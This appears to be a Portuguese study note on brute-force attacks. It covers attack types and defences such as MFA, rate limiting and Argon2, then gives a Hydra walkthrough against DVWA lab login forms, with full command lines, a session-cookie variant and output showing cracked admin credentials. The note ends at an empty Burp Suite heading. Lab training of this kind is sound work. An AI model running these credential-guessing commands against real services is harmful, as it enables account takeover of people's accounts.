 # Força Bruta

Tentativa sistemática de **adivinhar credenciais ou chaves** testando muitas combinações até encontrar a correta. Não explora uma falha de software; explora **senhas fracas**, **políticas frouxas** e **ausência de controles**.

### Principais formas

* **Online brute force**: tentativas diretas no serviço (SSH, HTTP login, RDP…). É limitado por **lockout**, **rate-limit** e rede. (Ferramentas típicas: Hydra, Medusa.)
* **Offline brute force**: tenta contra **hashes** de senhas previamente obtidos (dump, vazamento). Muito mais rápido, especialmente com **GPU** (hashcat/John). O sucesso depende do algoritmo de hash e da força da senha.
* **Dictionary / Hybrid**: testa listas de senhas comuns e variações (ex.: “Empresa2025!”, “Nome123”).
* **Password spraying**: mesma senha comum em **várias contas** (evita bloquear uma única conta).
* **Credential stuffing**: reutiliza **pares usuário:senha vazados** em outros sites.

### Por que funciona

* Senhas previsíveis, curtas ou reutilizadas.
* Hashes rápidos sem proteção (ex.: SHA-1/SHA-256 puro, sem **salt** e sem fator de custo).

### Sinais e riscos

* Muitas tentativas falhas, picos de autenticação, logins de IPs/dispositivos atípicos.
* Risco de **tomada de conta**, escalada interna, fraudes e vazamento de dados.

### Defesas essenciais

1. **MFA** (TOTP/chaves FIDO2) — quebra o valor de um único segredo.
2. **Política de senha forte** + **bloqueio progressivo** / **rate limiting** / **backoff**.
3. **Detecção & resposta**: alertas por IP/ASN, device fingerprint, geolocalização, UEBA.
4. **Proteja o armazenamento**: use **bcrypt/scrypt/Argon2** com **salt único** e **custo** ajustado; nunca SHA/MD5 puro para senhas.
5. **Passkeys/WebAuthn** onde possível (elimina senha).
6. **Higiene de credenciais**: proibir senhas já vazadas (ex.: listas de “pwned passwords”).
7. **CAPTCHA** ajuda contra bots simples, mas **não substitui** MFA e rate-limit.
8. **Segregar superfícies**: limitar tentativas em interfaces expostas (VPN/SSO), proteger admin com IP allowlist.

---
## Hydra

### Ataque a página inicial do DVWA (Login)

Inspecionando a página...
```
<form action="login.php" method="post">	
	<fieldset>
			<label for="user">Username</label> <input type="text" class="loginInput" size="20" name="username"><br />
			<label for="pass">Password</label> <input type="password" class="loginInput" AUTOCOMPLETE="off" size="20" name="password"><br />		
			<p class="submit"><input type="submit" value="Login" name="Login"></p>
	</fieldset>
	</form>
```
...observamos que as informações são passadas por um formulário através dos campos username e password, e submetidas pelo botão Login.

O **comando padrão hydra** para o ataque **http-form-post** é:
```
$ hydra L <LISTA_DE_USERNAMES> -P <LISTA_DE_SENHAS> <IP> http-form-post "<PATH_ARCHIVE>:<CAMPO_USER>=^USER^&<CAMPO_SENHA>=^PASS^&<NOME_BOTÃO>=submit:<AVISO_DE_FALHA>" -
```
* Utilizaremos arquivos de usernames e passwords pequenos para fins de velocidade na execução do exercício.
```
$ hydra 192.168.1.33 http-form-post "/dvwa/login.php:username=^USER^&password=^PASS^&Login=submit:Login failed" -L usernames.txt -P passwords.txt

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-03 17:10:50
[DATA] max 16 tasks per 1 server, overall 16 tasks, 56 login tries (l:8/p:7), ~4 tries per task
[DATA] attacking http-post-form://192.168.1.33:80/dvwa/login.php:username=^USER^&password=^PASS^&Login=submit:Login failed
[80][http-post-form] host: 192.168.1.33   login: admin   password: password
[80][http-post-form] host: 192.168.1.33   login: Admin   password: password
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-03 17:10:55
```
O Hydra achou dois logins válidos (a partir da lista).

### Ataque a página /dvwa/vulnerabilities/brute/ 

Inspencionando a página...
```
	<form action="#" method="GET">
			Username:<br><input type="text" name="username"><br>
			Password:<br><input type="password" AUTOCOMPLETE="off" name="password"><br>
			<input type="submit" value="Login" name="Login">
		</form>
```
...observamos que é praticamente igual a anterior, trocando:
* O método para GET
* O aviso de erro
Contudo, executando o comando com as modificações...
```
$ hydra 192.168.1.33 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=submit:Username and/or password incorrect." -L usernames.txt -P passwords.txt
```
... todas as tentativas retornam como sucesso, indicando que algo falta ou não está correto no comando.

Usando o Burp Suite para verificar o fluxo, observamos que existe um cookie de sessão.
```
GET /dvwa/vulnerabilities/brute/?username=ccwdcqwd&password=cwdqqw&Login=Login HTTP/1.1
Host: 192.168.1.33
Accept-Language: pt-BR,pt;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.33/dvwa/vulnerabilities/brute/
Accept-Encoding: gzip, deflate, br
Cookie: security=high; security=low; PHPSESSID=ae49c4cec2fe60067eddfe55ea9e2824
Connection: keep-alive
```
Assim, é necessário incluir o cookie de sessão no comando hydra. O **comando padrão** para o ataque **http-form-get** com **cookie** é:
```
$ hydra L <LISTA_DE_USERNAMES> -P <LISTA_DE_SENHAS> <IP> http-form-post "<PATH_ARCHIVE>:<CAMPO_USER>=^USER^&<CAMPO_SENHA>=^PASS^&<NOME_BOTÃO>=submit:H=Cookie\:PHPSESSID=<COOKIE>:<AVISO_DE_FALHA>" -
```
* **Todos os dois pontos (:) que não forem separadores de opções devem ser escapados por uma barra invertida (\)**.
 * Se você for usar dois pontos (:) nos seus cabeçalhos, use uma barra invertida (\) como escape.

Executando o comando hydra:
```
$ hydra -L usernames.txt -P passwords.txt 192.168.1.33 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=ae49c4cec2fe60067eddfe55ea9e2824:Username and/or password incorrect."

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-03 20:56:02
[INFORMATION] escape sequence \: detected in module option, no parameter verification is performed.
[DATA] max 16 tasks per 1 server, overall 16 tasks, 56 login tries (l:8/p:7), ~4 tries per task
[DATA] attacking http-get-form://192.168.1.33:80/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=ae49c4cec2fe60067eddfe55ea9e2824:Username and/or password incorrect.
[80][http-get-form] host: 192.168.1.33   login: Admin   password: password
[80][http-get-form] host: 192.168.1.33   login: admin   password: password
[STATUS] 37.00 tries/min, 37 tries in 00:01h, 19 to do in 00:01h, 16 active
[STATUS] 28.00 tries/min, 56 tries in 00:02h, 1 to do in 00:01h, 15 active
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-03 20:58:47
```
O comando é executado com sucesso, como dois resultados positivos.

---

## Burp Suite Intruder


